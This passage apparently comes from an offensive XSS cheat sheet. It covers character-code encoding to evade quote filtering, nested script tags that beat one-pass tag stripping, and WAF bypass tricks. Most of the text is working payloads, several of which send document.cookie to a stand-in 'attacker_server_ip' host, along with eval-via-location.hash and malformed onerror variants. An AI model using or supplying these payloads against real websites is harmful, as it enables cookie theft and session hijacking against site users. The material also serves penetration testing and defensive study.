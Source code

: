 ```bash
```

### ASCII Character
 Using the JavaScript `fromCharCode()` function (maps numeric codes to the corresponding ASCII characters) to bypass filtering of special HTML characters, like `'` and `"`.
- This piece of code is equivalent to the string `http://attacker_server_ip/?c=`
  ```html
  String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
  ```
- Construct an XSS payload without quotes
  ```html
  <scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47,47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
  ```
- Script to create charcode:
  ```html
  <script>
  function ascii(c){
    return c.charCodeAt();
  }
  encoded = "http://attacker_server_ip/?c=".split("").map(ascii);
  document.write(encoded);
  </script>
  ```
  
### Filter Logic Errors
Sometimes applications remove all `<script>` tags in the user input to prevent XSS, but do it only once.
  ```html
  <scrip<script>t>location='http://attacker_server_ip/c='+document.cookie;</scrip</script>t>
  ```

# WAF Bypass
- If the WAF is well-knonw, search in the net to get the bypass.
- If tyou want to discover a paylaod, use these notes:
  - WAFs commonly use regular expression rule-sets which detect malicious inputs
  - Fuzz to discover which part of the payload is matched by the WAF's rule-set.
  - WAFs commonly are not updated, the newer HTML tag is, the more chance you have
    ```html
    <details/open/ontoggle=Js>
    ```
  - If you cannot make alert, try to put the payload after `#`, since this part is not sent to the server.
    ```html
    <details/open/ontoggle="location=location.hash.split('%23')[1]">#javascript:alert(`XSS`)
    <x/onclick=a=eval,a('/'%2blocation.hash)>here</x>#/-alert(origin)
    ```
  - Expand your payload to confuse the WAF
    ```html
    <img src="/" =_=" title="onerror='prompt(1)'">
    <--`<img/src=` onerror=alert(1)> --!>
    ```
